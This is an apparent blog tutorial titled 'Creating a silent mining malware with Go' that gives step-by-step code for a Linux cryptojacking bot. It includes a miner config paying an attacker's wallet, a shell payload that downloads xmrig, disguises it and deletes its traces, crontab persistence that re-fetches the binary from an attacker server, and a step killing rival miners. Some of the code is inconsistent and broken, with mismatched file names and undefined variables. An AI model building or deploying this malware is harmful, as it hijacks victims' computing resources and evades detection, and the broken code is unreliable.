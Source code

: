 ```yaml
---
layout: post
title:  "Creating a silent mining malware with Go"
date:   2022-08-10 01:51:18 -0300
categories: ["Cyber Security"]

---
```

With the popularity of cryptocurrencies, the idea of investing in mining these assets has crossed the minds of many people. However, the high costs of hardware and energy have made this activity unfeasible or less profitable for many. But what if you could receive mining profits without worrying about hardware and energy costs and, moreover, use hundreds or thousands of computers to do it? This is what motivated cybercriminals to create botnets with multiple machines infected with a type of malware known as cryptojacking.

<i>This article is written solely for learning purposes for cybersecurity enthusiasts or professionals.</i>

## Step 1 - Creating the Configuration File
In this first step, we will create some necessary settings for the miner to function.

```go
package main

import (
	"encoding/json"
	"io/ioutil"
	"os/exec"
)
// Here we define two structures with some basic xmrig configurations. Understanding this part is not important.

type Config struct {
	Autosave   bool   `json:"autosave"`
	Cpu        bool   `json:"cpu"`
	Opencl     bool   `json:"opencl"`
	Background bool   `json:"background"`
	Cuda       bool   `json:"cuda"`
	Pools      []Pool `json:"pools"`
	Donate     int    `json:"donate-level"`
}

type Pool struct {
	Url       string `json:"url"`
	User      string `json:"user"`
	Keepalive bool   `json:"keepalive"`
	Tls       bool   `json:"tls"`
}

// With these two declared structures, we can create a function to generate a file with our configurations:

func writeConfig() {
	wallet := "ATTACKERS_WALLET_HERE" // Wallet that will receive the monero

	config := Config{
		Autosave:   false,
		Cpu:        true,
		Opencl:     true,
		Background: true,
		Cuda:       false,
		Donate:     1,
		Pools: []Pool{
			{
				Url:       "pool.minexmr.com:443",
				User:      wallet,
				Keepalive: true,
				Tls:       true,
			},
		},
	}

	file, _ := json.MarshalIndent(config, "", " ")
  
	// Write the configurations to a file
	_ = ioutil.WriteFile("config.json", file, 0644)
}
```


## Step 2 - Mining
Before assembling the payload, we need to get the download URL of the miner, which can be found in the releases of the <a href="https://github.com/xmrig/xmrig/releases/tag/v6.16.3">xmrig</a> repository.

```go
func getMiner() {
	// Store the xmrig URL in a variable
  minerLink := "https://github.com/xmrig/xmrig/releases/download/v6.16.3/xmrig-6.16.3-linux-static-x64.tar.gz"
}
```

Next, we'll assemble our payload in shellscript:

```sh
# Try to download the miner using wget
wget <xmrig_link>
# Try to download the miner using curl
curl -L <xmrig_link>
# Extract the miner
tar -zvxf xmrig-6.16.3-linux-static-x64.tar.gz;
# Move the configuration file, which we created earlier, into the miner's folder
mv config.json xmrig-6.16.3; 
# Rename the xmrig executable to a less suspicious name
cd xmrig-6.16.3; 
mv xmrig x01service;
# Run the miner
./x01service; 
# Wait for the miner to run and then remove all malware-related files.
pid=$!; 
wait $pid; cd ..; 
rm xmrig-6.16.3-linux-static-x64.tar.gz;
pid=$!; 
wait $pid;
rm -R xmrig-6.16.3;
pid=$!;
wait $pid;
rm x01badMin3r;
```

Now, copy this entire payload and place it inside a string in your getMiner function, replacing <xmrig_link> with the minerLink variable created earlier.

The malware will then create a .sh file with this payload inside, grant permission, and execute it on the infected machine.

```go
func getMiner() {
	minerLink := "https://github.com/xmrig/xmrig/releases/download/v6.16.3/xmrig-6.16.3-linux-static-x64.tar.gz"

	payload := "wget " + minerLink + "; curl -L " + minerLink + "; tar -zvxf xmrig-6.16.3-linux-static-x64.tar.gz; mv config.json xmrig-6.16.3; cd xmrig-6.16.3; mv xmrig x01service; ./x01service; pid=$!; wait $pid; cd ..; rm xmrig-6.16.3-linux-static-x64.tar.gz; pid=$!; wait $pid; rm -R xmrig-6.16.3; pid=$!; wait $pid; rm x01badMin3r;"

	// Convert the payload to a byte array
	data := []byte(payload)

	// Create the .sh file
	ioutil.WriteFile("x01badMin3r.sh", data, 0644)

	// Grant permission and execute the .sh file on the infected machine
	exec.Command("chmod", "777", "k4yn.sh").Output()
	exec.Command("chmod", "+x", "k4yn.sh").Output()
	exec.Command("/bin/sh", "k4yn.sh").Output()
}
```

By simply compiling this code and running it on a machine where you have permission, it will start mining Monero and send it to the attacker's wallet. But let's add some additional features.

## Step 3 - Persistence
For this step, you'll need to host your malware somewhere.

Next, we will use crontab for persistence.

Crontab is essentially a scheduler that performs an action at specific intervals. In this case, we will use it to execute a script every minute that downloads and runs our malware again if the miner is no longer active.

<i>Please note that crontab typically works only on Linux.</i>

```go
func persistence() {
	binpath:= "http://<server_ip>/<your_malware_name>"

	// Script that creates the crontab scheduler if it doesn't already exist
	cr0nt := "if ! crontab -l | grep -q /tmp/cR0ntSc.sh  > /dev/null; then (crontab -l 2>/dev/null; echo \"* * * * * /tmp/cR0ntSc.sh\") | crontab -; (crontab -l 2>/dev/null; echo \"* * * * * /var/cR0ntSc.sh\") | crontab -; (crontab -l 2>/dev/null; echo \"* * * * * /mnt/cR0ntSc.sh\") | crontab -; (crontab -l 2>/dev/null; echo \"* * * * * /root/cR0ntSc.sh\") | crontab -; (crontab -l 2>/dev/null; echo \"* * * * * /cR0ntSc.sh\") | crontab -; (crontab -l 2>/dev/null; echo \"* * * * * /dev/cR0ntSc.sh\") | crontab -; else ls -a; fi"

	// Script to be executed by crontab if the miner stops mining
	cr0nscript := "cd /tmp  cd /var/run  cd /mnt  cd /root  cd /; wget " + binpathaces + "; curl -O " + binpathaces + "; chmod +x *; ./x01badMin3r"
	
	// Create, grant permission, execute, and remove the created scripts
	ioutil.WriteFile("cR0nt.sh", data1, 0644)
	ioutil.WriteFile("cR0ntSc.sh", data2, 0644)

	exec.Command("chmod", "777", "cR0nt.sh").Output()
	exec.Command("chmod", "+x", "cR0nt.sh").Output()
	exec.Command("chmod", "+777", "cR0ntSc.sh").Output()
	exec.Command("chmod", "+x", "cR0ntSc.sh").Output()
	exec.Command("/bin/sh", "cR0nt.sh").Output()
	exec.Command("rm", "cR0nt.sh").Output()
}
```

## Step 4 - Eliminating Competition and Combining Functions
Before combining the functions in the correct order, let's execute a command that checks if there is already an xmrig miner on the infected machine. If there is, the process is terminated.


```go
func main() {
	exec.Command("sudo", "pkill", "-9", "-f", "xmrig").Output()
	writeConfig()
	persistence()
	getMiner()
}
```

You have now completed all the functions of our simple malware. Now, you can compile and test it on a machine where you have permission.

